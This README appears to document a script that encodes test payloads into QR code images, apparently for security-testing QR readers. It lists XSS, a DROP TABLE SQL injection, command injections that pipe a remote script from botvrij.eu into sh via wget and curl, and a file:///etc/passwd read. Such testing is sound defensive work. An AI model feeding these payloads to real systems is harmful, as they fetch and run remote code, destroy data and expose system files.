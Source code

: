 # Overview

The script [`gen_qrcode.py`](gen_qrcode.py) uses the `qrcode` Python library to create QR codes for different types of payloads. Each QR code is saved as a PNG image file in the current directory.

Note that a single QR code can't hold arbitrarily large blobs of data. In its largest version (Version 40, Low‐ECC), a QR code can store up to about 2 950 bytes (≈ 2.9 KB) of binary data.

# Usage

**Install dependencies**  
   Make sure you have the `qrcode` library installed:
   ```sh
   pip install qrcode[pil]
   ```

# QR code tests

## XSS

```python
xss_payload = "<script>alert('XSS!');</script>"
generate_qr(xss_payload, "qr_xss.png", "XSS payload")
```

## SQL injection

```
sql_payload = "'; DROP TABLE logs;-- "
generate_qr(sql_payload, "qr_sql_injection.png", "SQL-injection payload")
```

## Command injection payload using wget/curl

```
cmd_payload = "`; wget https://www.botvrij.eu/payload.sh -O- | sh; #`"
generate_qr(cmd_payload, "qr_cmd_injection_wget.png", "Command injection payload wget")
```

## Command injection payload using curl

```
cmd_payload_curl = "`; curl -s https://www.botvrij.eu/payload.sh | sh; #`"
generate_qr(cmd_payload_curl, "qr_cmd_injection_curl.png", "Command injection payload curl")
```

## File inclusion payload

```
file_inclusion_payload = "file:///etc/passwd"
generate_qr(file_inclusion_payload, "qr_file_inclusion.png", "File inclusion payload")
```

## Email payload

```
email_payload = "mailto:info@botvrij.eu?subject=Test&body=QR"
generate_qr(email_payload, "qr_email.png", "Email payload")
```

## URL payload

```
url_payload = "https://www.botvrij.eu/payload-test"
generate_qr(url_payload, "qr_url.png", "URL payload")
```